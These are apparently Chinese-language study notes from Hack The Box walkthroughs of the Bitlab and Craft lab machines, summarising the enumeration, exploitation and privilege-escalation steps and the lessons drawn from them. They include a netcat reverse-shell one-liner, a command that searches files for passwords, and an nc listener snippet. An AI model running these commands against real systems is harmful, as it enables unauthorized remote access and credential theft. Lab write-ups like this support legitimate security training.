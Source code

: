 ### 三、Bitlab

环境概述：Linux、Medium、30'、07 Sep 2019

渗透流程：Nmap -> Web Enumeration -> File Upload –> RCE –> Shell as www-data -> Database Access –> Clave’s Password –> SSH as Clave –> User Flag -> Reversing RemoteConnection.exe –> Root’s Password –> SSH as Root –> Root Flag

知识点：

- 信息泄露：使用Nmap发现80端口存在robots.txt，-sC参数可以识别并输出具体内容；robots.txt泄露了大量disallow路径。
- 信息泄露：使用F12或开发者工具，查看HTML源代码，可能存在敏感JS代码。
- 路径关联：robots里的某路径和主仓库路径关联，使用同一静态文件（图片等）可快速确定。
- 数据库：连接数据库的工具不单只有特定的客户端程序，常见的编程语言均内置数据库连接函数，可以巧用。
- 数据库：PostgreSQL安装完后默认自带一个命令行工具psql。
- 文件传输：在反弹的伪终端中，使用scp下载文件，`scp clave@bitlab.htb:/home/clave/RemoteConnection.exe ./`。

思考：

- Nmap：-sC和-sV倒不如直接使用-A，DNS、路由等信息也加入识别。
- 信息泄露：在厂商的授权测试中，巧用Github搜索可能会得到意外的代码信息。
- 文件定位：Windows下使用findstr，`findstr /si password *.xml *.ini *.txt`，查看后缀名文件中含有password关键字的文件；使用dir，`dir /b/s config.*`，查看当前目录所有config.为前缀的文件。Linux下对应grep和find。
- 数据库：若环境支持PHP，可以利用adminer，支持MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, SimpleDB, Elasticsearch, MongoDB。
- URL格式：`postgres://user:pass@host.com:5432/path?k=v#f`，包含了模式（协议）、验证信息、主机、端口、路径、查询参数和查询片段。注意：`@`和`#`。
- 二进制程序：在逆向程序前可先使用关键字进行strings匹配。

### 四、Craft

环境概述：Linux、Medium、30'、13 Jul 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell on Docker Container -> Gilfoyle’s Gogs Credentials –> SSH Key –> SSH as Gilfoyle –> User Flag -> Vault –> One-Time SSH Password –> SSH as root –> Root Flag

知识点：

- 版本控制：查看代码的同时记得查看Git提交记录，即Commit History。
- API泄露：根据API帮助文档，可构造请求数据包，获取服务器对应响应。
- 反弹Shell：使用sh -i、nc，`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`。
- Python：作者写了个EXP demo，流程、输出都很清晰。其中，nc监听并实时返回结果可以利用subprocess子进程的Popen方法，`Popen(["nc","-lvnp",port])`。
- 环境分析：在`/根目录`发现了`.dockerenv`文件，判定当前环境为Docker容器。
- Linux登陆：使用SSH私钥，`ssh -i private.key user@host`。
- 信息搜集：着重关注用户家目录下的`.xxx`文件，往往都是服务的配置文件，可快速定位当前用户常使用的软件服务。
- Vault：一款密码保护工具，可以生成一次性root密码。

思考：

- 信息泄露：常用的版本控制工具除了Git还有SVN；利用公开的代码库搜索可能会有意外发现，可以使用[searchcode](https://searchcode.com)搜索来自Github, Bitbucket, Google Code, Codeplex, Sourceforge, Fedora Project, GitLab等开源仓库的代码内容。
- 环境分析：Linux下可以通过查看etc下的release文件快速判断，`cat /etc/*release`。Docker可以通过查看网络接口来简单判断，`ip a`。
- 文件查找：可以使用`ls -lat`按时间顺序来查看当前目录下的文件。
